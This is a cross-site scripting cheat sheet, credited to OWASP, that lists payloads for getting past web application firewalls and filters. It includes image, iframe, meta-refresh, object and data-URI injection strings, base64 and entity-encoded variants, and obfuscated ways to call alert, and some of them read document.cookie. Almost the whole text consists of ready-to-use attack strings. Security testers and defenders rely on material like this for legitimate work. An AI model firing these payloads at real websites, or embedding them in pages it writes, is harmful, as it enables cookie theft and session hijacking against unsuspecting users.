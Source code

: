 - This request will not pass through the WAF:

`/?param=<javascript:alert(document.cookie>)`

- This request will pass through the WAF and an XSS attack will be conducted in certain browsers.

`/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

## WAF ByPass Strings for XSS

- `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
- `<Video> <source onerror = "javascript: alert (XSS)">`
- `<Input value = "XSS" type = text>`
- `<applet code="javascript:confirm(document.cookie);">`
- `<isindex x="javascript:" onmouseover="alert(XSS)">`
- `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
- `"><img src="x:x" onerror="alert(XSS)">`
- `"><iframe src="javascript:alert(XSS)">`
- `<object data="javascript:alert(XSS)">`
- `<isindex type=image src=1 onerror=alert(XSS)>`
- `<img src=x:alert(alt) onerror=eval(src) alt=0>`
- `<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
- `<iframe/src="data:text/html,<svg onload=alert(1)>">`
- `<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>`
- `<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script`
- `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
- `<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>`
- `<form><a href="javascript:\u0061lert(1)">X`
- `</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>`
- `<style>//*{x:expression(alert(/xss/))}//<style></style>`
- On Mouse Over​
- `<img src="/" =_=" title="onerror='prompt(1)'">`
- `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe`
- `<script x> alert(1) </script 1=2`
- `<form><button formaction=javascript&colon;alert(1)>CLICKME`
- `<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"`
- `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
- `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>`

## Filter Bypass Alert Obfuscation

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`
- &#96;`${alert``}`&#96; (The payload should include leading and trailing backticks.)
- `(alert())`

source: [OWASP
/
www-community](https://github.com/OWASP/www-community/blob/master/pages/xss-filter-evasion-cheatsheet.md)
